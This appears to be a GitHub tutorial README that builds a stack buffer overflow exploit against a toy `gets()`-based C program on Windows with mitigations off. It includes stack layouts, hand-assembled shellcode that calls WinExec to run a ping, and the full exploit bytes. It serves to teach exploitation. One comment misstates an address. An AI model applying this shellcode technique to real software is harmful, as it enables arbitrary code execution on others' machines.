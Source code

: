 ## Overview
This project demonstrates a simple buffer overflow attack. The vulnerable program reads a string from the user and then prints it back. However, the function used for reading user input, ```gets()```, does not verify whether the buffer is large enough for a given input, making it vulnerable to buffer overflow. This attack works on Windows with ASLR, stack canaries and non-executable stack disabled. The project includes three files:
- ```vulnerable.c``` is the target of the attack
- ```exploit.bin``` is the input we will give to the vulnerable program to execute our code (our goal will be to open a new terminal window and ping google)
- ```getAddr.c``` is a helper program that will print the address of the function ```WinExec``` (its usefulnes will be apparent later)

The following is a detailed description of how the exploit was developed. I used OllyDbg throughout this project.

## Basic Exploit Structure
Having identified a vulnerable input in our program, we need to first analyze what the stack looks like before we enter our input. This is a diagram of the stack layout after the prolog of ```main```
```
address   value  
0019FEF0  0019FF08 - the start of the input buffer   <= ESP

...

0019FF2C  0019FF74 - saved EBP                       <= EBP  
0019FF30  00401279 - return address  
0019FF34  00000001 - argc 
0019FF38  005DCA48 - argv
```
```ESP``` is pointing to the start of the buffer (```0x0019FEF0```) and ```EBP``` is pointing to the ```saved EBP``` (```0x0019FF74```). It is worth noting that ```ESP``` will be pointing to ```argc``` (```0x0019FF34```) after returning from ```main```.

The rough idea of our exploit is to write the code into the buffer and then overwrite the ```return address``` with the address of our code. This will cause the ```ret``` instruction at the end of the function to execute our code. The buffer has 60B and we also need to overwrite the ```saved EBP``` to get to the ```return address```, so our exploit needs to be 68B long. The first 64B can be shellcode and the last 4 bytes need to be the address, where we want to redirect execution. We have to add padding if our shellcode is not long enough to exactly match this length. Overall, the exploit needs to have the following format
```
|  shellcode & padding   |  shellcode address
|          64B           |       4B
```
We should note now that our input cannot include arbitrary bytes.  CPP reference ([https://en.cppreference.com/w/c/io/gets](url)) states that ```gets``` loads input until it reaches either ```0x0A``` ('\n') or ```0x1A``` (EOF). Our exploit therefore cannot contain these bytes. Another limitation arises from our input method - we would not be able to enter ```0x08``` (backspace) and ```0x00``` if we were to write the exploit directly into the console. However, this can be overcome by writing the exploit into a binary file and then sending it into the input of the vulnerable program.

## Crafting the Exploit - Loading the Command String into Memory 

Let us now consider what the shellcode will actually look like. Our goal is to open a new terminal window and run ```ping 8.8.8.8```. This can be done by calling ```WinExec``` with ```cmd /k start cmd /k ping 8.8.8.8``` as its first argument. The second argument to ```WinExec``` will be 1 (``SW_NORMAL``). The first thing we need to do is to store the first argument as a null terminated string in memory. This can be done easily by making it the first part of our shellcode. The string itself looks like this
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38
```
Now we need to add a null byte to the end. We could just write it there in our exploit file, but that would make the exploit unusable if we were to type it directly into a console. A more universal solution is to add four bytes of padding to the end of the string and then overwrite that padding with null bytes in our code. The beginning of our exploit will therefore be 
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38
61 61 61 61
| padding |
```
This is what the stack will look like once our exploit has been loaded into memory
```
address   value
0019FEF0  636D6420 - the beginning of our buffer   <= ESP
0019FEF4  2F6B2073
0019FEF8  74617274
0019FEFC  20636D64
0019FF00  202F6B20
0019FF04  70696E67
0019FF08  20382E38
0019FF0C  2E382E38
0019FF10  61616161 - padding

...

0019FF2C  0019FF74 - saved EBP                     <= EBP
0019FF30  00401279 - return address
0019FF34  00000001 - argc 
0019FF38  005DCA48 - argv
```

We can see that we need to write ```0x00000000``` to the address ```0x0019FF10``` and we need to do this without using an instruction that would itself contain a null byte. In particular, we cannot directly write the address we are trying to write to. Fortunately, we can calculate the address using ```ESP```. ```ESP``` will be pointing to ```argc``` (```0x0019FF34```) after the program returns from ```main``` and starts executing our code, meaning that the target address can be calculated as ```ESP - 0x24```. In summary, we can write the required null bytes using the following instructions

```
shellcode     assembly
33C0          XOR EAX, EAX                   - zero out eax
894424 DC     MOV DWORD PTR[ESP - 24], EAX   - write a zero to 0x0019FF14
```

## Crafting the Exploit - Calling WinExec

Let us now consider what the stack will look like right after returning from main.

```
address   value
0019FEF0  636D6420 - the beginning of our buffer
0019FEF4  2F6B2073
0019FEF8  74617274
0019FEFC  20636D64
0019FF00  202F6B20
0019FF04  70696E67
0019FF08  20382E38
0019FF0C  2E382E38
0019FF10  61616161 - padding
0019FF14  33C08944 - first instructions of our code     <= PC
...

0019FF2C  ........ - last instructions of our code                     
0019FF30  0019FF14 - overwritten return address
0019FF34  00000001 - argc                               <= ESP
0019FF38  005DCA48 - argv
```
The next step is to push the arguments of ```WinExec``` onto the stack. The first argument we need to push is 1 and the second is the address of the command string - ```0x0019FEF0```. We use the same technique as before to avoid having to type a null byte in our exploit to store this address in ```EBX```. However, we cannot push onto the stack yet. The diagram above shows that doing so would overwrite our own code. We will solve this by subtracting a sufficiently large number from ```ESP```, thus moving the top of the stack above our code. The exact number does not matter, it only needs to be large enough for the resulting ```ESP``` to point above the beginning of the buffer. Once this is done we proceed to push the arguments we wish to pass to ```WinExec``` onto the stack.

```
shellcode        assembly
8BDC             MOV EBX,ESP - copy ESP to EBX
83EB 44          SUB EBX,44  - now EBX points to the start of the buffer, which is the address of our command string
83EC 50          SUB ESP,50  - move the stack pointer above the buffer
6A 01            PUSH 1      - push the first argument
53               PUSH EBX    - push the second argument
```

Now we need to call ```WinExec```. This function is part of ```kernel.dll```. Addresses of library functions are randomized upon being loaded into memory, but ```kernel.dll``` is included in every process running on Windows. This means that its address is only randomly assigned when the operating system starts and remains the same until shutdown. This allows us to use ```getAddr.c``` to find the address beforehand and be sure that it will be the same once we execute the vulnerable program. However, the address will be different each time we reboot our computer, so this part of the exploit needs to be manually changed for it to work. I got the address ```0x75CF4890``` during my testing. Note that the byte order of the address needs to be reversed when writing it into the exploit. This leads us to the last two instructions of our exploit.

```
shellcode        assembly
B8 75CF4890      MOV EAX,KERNEL32.WinExec - load the address of WinExec into EAX
FFD0             CALL EAX                 - call the function
```

This is the entire code:
```
33C0             XOR EAX,EAX
894424 DC        MOV DWORD PTR SS:[ESP-24],EAX
8BDC             MOV EBX,ESP
83EB 44          SUB EBX,44
83EC 50          SUB ESP,50
6A 01            PUSH 1
53               PUSH EBX
B8 9048CF75      MOV EAX,KERNEL32.WinExec
FFD0             CALL EAX
```

## Crafting the Exploit - Final Touches

We get the following exploit after adding the code to our command string.
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38 
61 61 61 61 33 C0 89 44 24 DC 8B DC 83 EB 44 83 
EC 50 6A 01 53 B8 90 48 CF 75 FF D0
```
This code is 60B long so we need to add 4B of padding followed by the address of our code (```0x0019FF14```). We once again encounter the issue of having to write a null byte. However, the bytes we actually need to write into the buffer are ```14 FF 19 00```. Notice that the null byte is the very last byte of our exploit. Fortunately, gets stores its input as a null terminated string, so it will write this problematic byte for us. The complete shellcode therefore looks like this
```
63 6D 64 20 2F 6B 20 73 74 61 72 74 20 63 6D 64 
20 2F 6B 20 70 69 6E 67 20 38 2E 38 2E 38 2E 38 
61 61 61 61 33 C0 89 44 24 DC 8B DC 83 EB 44 83 
EC 50 6A 01 53 B8 90 48 CF 75 FF D0 61 61 61 61
14 FF 19          |          |      |         |
|      |         WinExec address      padding
address of our code (the null byte will be written by gets)
```

Remember that it is necessary to replace the ```WinExec``` address by the address printed by ```getAddr.c```. Finally, we run the exploit using ```vulnerable < exploit.bin```.
